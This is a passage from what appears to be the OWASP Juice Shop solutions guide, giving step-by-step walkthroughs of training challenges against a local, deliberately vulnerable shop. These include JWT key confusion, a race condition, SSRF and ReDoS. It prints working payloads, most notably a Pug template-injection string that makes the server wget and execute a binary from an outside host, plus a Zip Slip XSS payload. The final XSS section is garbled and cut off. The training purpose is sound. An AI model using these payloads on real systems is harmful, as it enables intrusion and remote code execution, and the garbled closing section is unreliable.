7. Next, click the _Attacker_ tab, select _Key Confusion_, then click
   _Load_.
8. Paste in the contents of the `jwt.pub` file without the `-----BEGIN
   RSA PUBLIC KEY-----` and `-----END RSA PUBLIC KEY-----` lines.

   
9. Click _Update_ and then _Go_ in the top left to send the modified
   request via Burp and solve this challenge!

👏 Kudos to [Tyler Rosonke](https://github.com/ZonkSec) for providing
this solution.

### Like any review at least three times as the same user

1. Liking a review normally results in a request to
   <http://localhost:3000/rest/products/reviews> which associates the
   email of the user with the review (identified by the JSON body of
   e.g. `{id: "ZQdzyRCbwQ4ys3PCG"}`) and also increases its like counter
   by one.
2. If you try to replay the same request you will get a `403 Forbidden`
   HTTP status with `{"error":"Not allowed"}` in the response.
3. Write a script that simultaneously executes three requests to
   <http://localhost:3000/rest/products/reviews> with body e.g. `{id:
   "ZQdzyRCbwQ4ys3PCG"}` and run it.
4. If your 3 requests get handled asynchronously within an (artificial)
   150ms time window, you will cause a race condition and all will get
   through and each increase the like counter by one to a total of
   three!
5. Back in your browser you should now see the corresponding challenge
   marked as solved!

The following [RaceTheWeb](https://github.com/aaronhnatiw/race-the-web)
config does the trick as well:

```toml
# Multiple Likes
# Save this as multiple-likes.toml
# Get comment information from this endpoint first: http://localhost:3000/rest/products/<id>/reviews
# Then repalce id values in body parameter of this file
# You need to replace the bearer token as well
# open browser dev tools, like any of the comment, then inspect the traffic to obtain a valid bearer token
# Launch this file by doing ./racethweb multiple-likes.toml
count = 3
verbose = true
[[requests]]
    method = "POST"
    url = "http://localhost:3000/rest/products/reviews"
    body = "{\"id\":\"QEBb8RKLor69dsXkB\"}"
    headers = ["Content-Type: application/json","Authorization: Bearer XXX"]
```

### Log in with the support team's original user credentials

_Solving this challenge requires [KeePass 2.x](http://keepass.info)
installed on your computer. If you are using a non-Windows OS you can
try using some unofficial port but there is no guarantee the file can be
opened on those._

1. Download and install KeePass 2.x from <http://keepass.info>
2. Get the support team's KeePass database file from
   <http://localhost:3000/ftp/incident-support.kdbx> (note how this file
   is conveniently _not blocked_ by the file type filter).
3. Inspecting `main-es2015.js` for information leakage (e.g. by
   searching for `support`) will yield an interesting log statement that
   is printed when the support logs in with the wrong password:

   
4. The logged text is in Romanian language: `<!-- @echipa de suport:
   Secretul nostru comun este încă Caoimhe cu parola de master gol! -->`
5. Running this through an online translator yields something like:
   `Support Team: Our secret is still common Caoimhe master password
   empty!`
6. From `master password empty` you can derive, that the KeePass file is
   protected with **only a key file** instead of a password!
7. The key file must be something the support team has easy access to
   from everywhere - how else would they achieve 24/7 with expectedly
   high staff rotation?
8. The second important hint is the reference to `Caoimhe`, which
   happens to be an Irish feminine given name.
9. Visit <http://localhost:3000/#/about> and cycle through the photos of
   all support staff that are displayed in the background feedback
   carousel. There is one woman with red hair, which is a
   (stereo-)typical attribute of Irish people - so maybe she actually
   _is_ "Caoimhe"?

   
10. Download the photo
    <http://localhost:3000/public/images/carousel/6.jpg> and use it as a
    key file to unlock the KeePass database.
11. Find the password for the support team user account in the `prod`
    entry of the KeePass file.

    
12. Log in with `support@juice-sh.op` as _Email_ and
    `J6aVjTgOpRs$?5l+Zkq2AYnCE@RF§P` as _Password_ to beat this
    challenge.

    

### Unlock Premium Challenge to access exclusive content

1. Inspecting the HTML source of the corresponding row in the _Score
   Board_ table reveals a HTML comment that is obviously encrypted:
   `<!--IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg==-->`.

   
2. This is a cipher text that came out of an AES-encryption using AES256
   in CBC mode.
3. To get the key and the IV, you should run a _Forced Directory
   Browsing_ attack against the application. You can use OWASP ZAP for
   this purpose.
   1. Of the word lists coming with OWASP ZAP only
      `directory-list-2.3-big.txt` and
      `directory-list-lowercase-2.3-big.txt` contain the directory with
      the key file.
   2. The search will uncover <http://localhost:3000/encryptionkeys> as
      a browsable directory

      
   3. Open <http://localhost:3000/encryptionkeys/premium.key> to
      retrieve the AES encryption key `EA99A61D92D2955B1E9285B55BF2AD42`
      and the IV `1337`.
4. In order to decrypt the cipher text, it is best to use `openssl`.
   - `echo
     "IvLuRfBJYlmStf9XfL6ckJFngyd9LfV1JaaN/KRTPQPidTuJ7FR+D/nkWJUF+0xUF07CeCeqYfxq+OJVVa0gNbqgYkUNvn//UbE7e95C+6e+7GtdpqJ8mqm4WcPvUGIUxmGLTTAC2+G9UuFCD1DUjg=="
     | openssl enc -d -aes-256-cbc -K EA99A61D92D2955B1E9285B55BF2AD42
     -iv 1337133713371337 -a -A`
   - The plain text is:
     `/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us`
5. Visit
   <http://localhost:3000/this/page/is/hidden/behind/an/incredibly/high/paywall/that/could/only/be/unlocked/by/sending/1btc/to/us>
   to solve this challenge and marvel at the premium VR wallpaper!
   (Requires dedicated hardware to be viewed in all its glory.)

### Perform a Remote Code Execution that occupies the server for a while without using infinite loops

1. Follow steps 1-7 of the challenge
   [Perform a Remote Code Execution that would keep a less hardened application busy forever](#perform-a-remote-code-execution-that-would-keep-a-less-hardened-application-busy-forever).
2. As _Request Body_ put in `{"orderLinesData":
   "/((a+)+)b/.test('aaaaaaaaaaaaaaaaaaaaaaaaaaaaa')"}` - which will
   trigger a very costly Regular Expression test once executed.
3. Submit the request by clicking _Execute_.
4. The server should eventually respond with a `503` status and an error
   stating `Sorry, we are temporarily not available! Please try again
   later.` after roughly 2 seconds. This is due to a defined timeout so
   you do not really DoS your Juice Shop server.

### Request a hidden resource on server through server

1. Solve
   [Infect the server with "juicy malware" by abusing arbitrary command execution](#infect-the-server-with-juicy-malware-by-abusing-arbitrary-command-execution)
   at least to the point where you have access to the "juicy malware"
   executables.
2. Similar to that SSTi challenge, the vulnerable place for this one is
   found on the <http://localhost:3000/profile> page.
3. The only promising input field for an SSRF attack is the _Gravatar
   URL_. Open your browser's DevTools and watch the _Network_ tab.
4. Type any URL (e.g. <https://placekitten.com/100/100>) into _Gravatr
   URL_ and click _Link Gravatar_. You will realize a request
   <http://juice-shop-staging.herokuapp.com/profile/image/url> with the
   chosen <https://placekitten.com/100/100> as paramter `imageUrl`.
5. You will find no HTTP request to <https://placekitten.com/100/100>
   going out from your browser, though. As the image was retrieved and
   associated with your profile, it must have been downloaded _by the
   Juice Shop server_.

   
6. To solve this challenge, you need to find a secret URL hidden inside
   the "juicy malware" and simulate a self-targeted SSRF attack with it.
7. Use your favorite decompiler(s) to see what is going on inside the
   malware program...
8. ...or execute the malware while tunneling all its traffic through a
   proxy.
9. Either way you should be able to identify the URL being called by it
   is
   <http://localhost:3000/solve/challenges/server-side?key=tRy_H4rd3r_n0thIng_iS_Imp0ssibl3>
10. Visiting that URL directly will not do anything, as it needs to be
    called through the _Gravatar Link_ field that was presumably
    vulnerable to SSRF
11. Paste the URL in and click _Link Gravatar_ to get the expected
    challenge solved notification!

### Infect the server with juicy malware by abusing arbitrary command execution

1. Perform the totally obvious Google search for `juicy malware` to find
   <https://github.com/J12934/juicy-malware>
2. Alternatively you also find three `.url` files with direct links in
   <http://localhost:3000/ftp/quarantine> but you'll probably need to
   understand how to solve any of
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file),
   [Access a salesman's forgotten backup file](#access-a-salesmans-forgotten-backup-file)
   or
   [Access a misplaced SIEM signature file](#access-a-misplaced-siem-signature-file)
   first.
3. Your goal is to use RCE to make the server download and execute the
   malware version for the server OS, so on Linux you might want to run
   something like `wget -O malware
   https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_64?raw=true
   && chmod +x malware && ./malware`
4. You probably realized by now that <http://localhost:3000/profile> is
   not an Angular page? This page is written using
   [Pug](https://pugjs.org) which happens to be a Template engine and
   therefore perfectly suited for SSTi mischief.
5. Set your _Username_ to `1+1` and click _Set Username_. Your username
   will be just shown as `1+1` under the profile picture.
6. Trying template injection into Pug set _Username_ to `#{1+1}` and
   click _Set Username_. Your username will now be shown as `2` under
   the profile picture!
7. Craft a payload that will abuse the lack of encapsulation of
   JavaScript's `global.process` object to dynamically load a library
   that will allow you to spawn a process on the server that will then
   download and execute the malware.
8. The payload might look like
   `#{global.process.mainModule.require('child_process').exec('wget -O
   malware
   https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_64?raw=true
   && chmod +x malware && ./malware')}`. Submit this as _Username_ and
   (on a Linux server) the challenge should be marked as solved

ℹ️ Remember that you need to use the right malware file for your
server's operation system and also their synonym command for `wget`.

### Embed an XSS payload into our promo video

r p romo video 1. The author
[tweeted about a new promotion video](https://twitter.com/bkimminich/status/1114621693299916800)
from his personal account, openly spoilering the URL
<http://juice-shop-staging.herokuapp.

                            <http://juice-shop-staging.herokuapp.com/promotion>
                                2. Visit <http://localhost:3000/promotion> to watch the
video. You will notice that it comes with subtitles enabl

                            notice that it comes with subtitles enabled by default.
                                3. Right-click and select _View Source_ on the page to
learn that it loads its video from <http://localhost:3000/video> and
that the subtitles are directly embedded in th e p age itself. 4.
Inspecting the response for <http://localhost:3000/video> in the
_Network_ tab of your DevTools shows an interesting header
`Content-Location: /assets/public/videos/JuiceS hop Jingle.mp4` 5.
Trying to access the video directly at
<http://localhost:3000/assets/public/videos/JuiceShopJingle.mp4> works
fine. 6. Getting a directory listing for
<http://localhost:3000/assets/public/videos> does not work unf
ortunately. 7. Knowing that the subtitles are in
[WebVTT](https://www.w3.org/TR/webvtt1/) format (from step 3) a lucky
guess would be that a corresponding `.vtt` file is available alongs ide
the video. 8. Accessing
<http://localhost:3000/assets/public/videos/JuiceShopJingle.vtt> proves
this assum pti on correct. 9. As the subtitles are not loaded separately
by the client, they must be embedded on the server side. If this
embedding happens without proper safeguards, an XSS attack would be
possible if the subtitles files could b e ov erwritten. 10. The
prescribed XSS payload also hints clearly at the intended attack against
the subtitles, which are themselves enclosed in a `<script>` tag, which
the payload will try to close prematurely with its startin g `<
/script>`. 11. To successfully overwrite the file, the Zip Slip
vulnerability behind the
[Overwrite the Legal Information file](#overwrite-the-legal-information-file)
challeng e ca n be used. 12. The blind part of this challenge is the
actual file location in the server file system. Trying to create a Zip
file with any path trying to traverse into `../../assets/public/videos/`
will fail. Notice that `../../` was sufficient to get to the root folder
in
[Overwrite the Legal Information file](#overwrite-the-legal-information-file).
13\. This likely means that there is a deeper directory structure in
which `ass ets/ ` resides. 14. This actual directory structure on the
server is created by the AngularCLI tool when it compiles the
application and looks as follows: `frontend/dist/fron tend /assets/`.
15\. Prepare a ZIP file with a `JuiceShopJingle.vtt` inside that
contains the prescribed payload of
``</script><script>alert(`xss`)</script>`` with `zip exploit.zip
../../frontend/dist/frontend/assets/public/video/JuiceShopJingle.vtt` (
on Linux). 16. Upload the ZIP file on <http://localhost:300 0/#/
complain>. 17. The challenge notification will not trigger immediately,
as it requires you to actually execute the payload by visiting
<http://localhost:3000/pro moti on> again. 18. You will see the alert
box and once you go _Back_ the challenge solution should trigge

[^1]: <https://en.wikipedia.org/wiki/ROT13>

[^2]: <http://hakipedia.com/index.php/Poison_Null_Byte>

[^3]: <http://www.kli.org/about-klingon/klingon-history>

[^4]: <https://en.wikipedia.org/wiki/List_of_postal_codes_in_Germany>

[^5]: <https://en.wikipedia.org/wiki/Leet>

[^6]: <https://en.wikipedia.org/wiki/Billion_laughs_attack>

[^7]: <https://wiki.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)>

[^8]: <https://snyk.io/research/zip-slip-vulnerability>

